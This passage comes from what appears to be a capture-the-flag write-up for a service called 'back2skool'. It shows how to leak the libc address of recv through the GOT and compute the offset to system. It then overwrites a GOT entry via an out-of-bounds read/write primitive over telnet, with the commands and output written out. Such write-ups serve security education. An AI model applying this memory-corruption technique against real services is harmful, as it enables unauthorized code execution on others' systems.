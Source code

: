 	$ nm -D -u ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f 
	         w __gmon_start__
	         U __libc_start_main U __stack_chk_fail U accept U atoi U bind
	         U chdir U close U err U exit U fork U free U getpwnam U htonl
	         U htons U listen U perror U read U recv U send U setgid
	         U setgroups U setsockopt U setuid U signal U socket U vasprintf
	$ 

Hmm, nothing useful, nothing to execute, nothing to modify the mappings. But
hey, if you have access to those functions from libc and because the loader
maps the libc to our address space then it means that we have access to other
functions from libc, the problem is that we don't know where they are. A wild
**idea appears**, if we knew where one of the function from libc is, we can
compute the rest of them by adding some offsets. There are two problems with
this idea: **how do we find the offset of a used function** and **how do we
compute the offset of an unused function**.

* finding the address of a used function is **simple**, we can use the GOT and
  read the value of the pointer which has been already filled in by the
  loader. Because of the lazy linking, we only have to be careful to choose a
  function which has been previously called. We will choose `recv` for this
  purpose.

``` bash
$ objdump -dS ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f  | grep -A2 recv@plt
08048980 <recv@plt>:
 8048980:	ff 25 c0 bf 04 08    	jmp    *0x804bfc0
```

**0x804bfc0** is the GOT entry for `recv` function.


* finding the relative offset of the function that we want to jump to (e.g.
  `system`) is **difficult**. This offset depends on the version of libc that
  is used on the target system. To make things simple, we will focus first on
  exploiting locally - meaning that we have access to our libc file. To
  compute the offset we only have to find the function entries in libc.

``` bash
$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' recv@'
  1124: 000cebf0   118 FUNC    WEAK   DEFAULT   12 recv@@GLIBC_2.0
$ readelf -s /lib/tls/i686/cmov/libc.so.6 | grep ' system@'
  1398: 00039100   125 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
$ echo $((0x00039100-0x000cebf0))
-613104
```

The offset is -613104, **note** that it depends on the version of libc, hence
the exploit isn't too reliable. Let's focus though on exploiting locally and
postpone the computation of the remote offset. We will write at the same
address as in PoC1 but we will write the value of `system` function i.e.
`address_of_recv_function+OFFSET`.

``` bash
$ telnet localhost 31337
read
Input position to read from:
-32
Value at position -32: -1217696784
write
Input position to write to:
-2147483634
Input numeric value to write:
-1218309888
Value at position -2147483634: -1218309888
math
Result of math: -1
```
